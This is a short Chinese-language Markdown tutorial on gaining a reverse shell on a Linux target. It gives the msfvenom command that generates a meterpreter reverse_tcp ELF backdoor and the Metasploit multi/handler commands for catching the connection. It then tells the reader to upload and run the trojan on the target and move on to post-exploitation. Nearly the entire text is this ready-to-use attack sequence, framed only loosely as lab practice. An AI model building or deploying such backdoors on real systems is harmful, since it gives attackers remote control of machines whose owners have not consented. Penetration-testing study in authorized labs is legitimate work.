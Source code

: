 # 一、环境准备

1. MSF-Metasploit Framework
2. 一台靶机

# 二、木马生成

1. 生成一个Linux后门
2. msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST={监控IP} LPORT={监控端口} -f elf > shell.elf!![1643108165465](22 通过木马反弹shell（Linux）.assets/1643108165465.png)

# 三、配置监控

1. 启动msf   终端内输入：msfconsole 启动msf

   ![1643108186343](22 通过木马反弹shell（Linux）.assets/1643108186343.png)

2. 载入监控模块  msf中输入：  use exploit/multi/handler

3. 加载payload  msf终端中输入：set payload linux/x64/meterpreter/reverse_tcp

4. 配置payload  msf终端中输入：show options

5. 配置payload监控IP msf终端中输入： set  lhost  {监控IP}

6. 配置payload监控端口  msf终端中输入：set lport  {监控端口} （注意这里要和木马配置时使用的端口相同&如果使用内网穿透服务填写转发后的端口）

7. 检查payload配置  msf终端中输入：show options

8. 执行监控  msf终端中输入： run

   ![image-20240917000912071](18.通过木马反弹shell（Linux）/image-20240917000912071.png)	

# 四、攻击利用

1. 将木马上传到靶机 

2. 在靶机上执行木马 

![image-20240917000751211](18.通过木马反弹shell（Linux）/image-20240917000751211.png)	

1. 完成攻击利用

   ![1643108263211](22 通过木马反弹shell（Linux）.assets/1643108263211.png)	

于是即可进行后渗透

![image-20240917000823406](18.通过木马反弹shell（Linux）/image-20240917000823406.png)	











